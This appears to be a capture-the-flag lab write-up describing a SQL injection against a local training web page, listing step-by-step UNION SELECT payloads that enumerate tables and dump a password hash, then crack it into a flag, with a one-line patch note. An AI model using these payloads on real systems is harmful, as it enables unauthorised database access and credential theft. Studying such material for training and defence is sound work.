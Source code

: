 # Tools

- [Hash analyzer](https://www.tunnelsup.com/hash-analyzer/#google_vignette)
- [Hash lookup table](https://crackstation.net/)

# Exploit

We first try some random inputs in `http://localhost:8080/?page=member` and we notice that we get sql error messages.
Then we have to follow these steps:
1. `1 ORDER BY 1` to `1 ORDER BY 3` to determine the number of columns
2. `1 union all select database(), version()` to get the database name and it's version
3. `1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database()` to get the tables name
4. `1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x7573657273` to get columns name
5. `1 union all select 1,group_concat(Commentaire,0x0a) from users` to check the content of that table
6. `1 union all select 1,group_concat(countersign,0x0a) from users` to get the password
7. `5ff9d0165b4f92b14994e5c685cdce28` we get this encrypted string that we decrypt to `FortyTwo`.
8. We know that the flag are `sha256` encrypted so we encrypt `fortytwo` using that algorithm

# Patch

Prepare the input and sanitize the query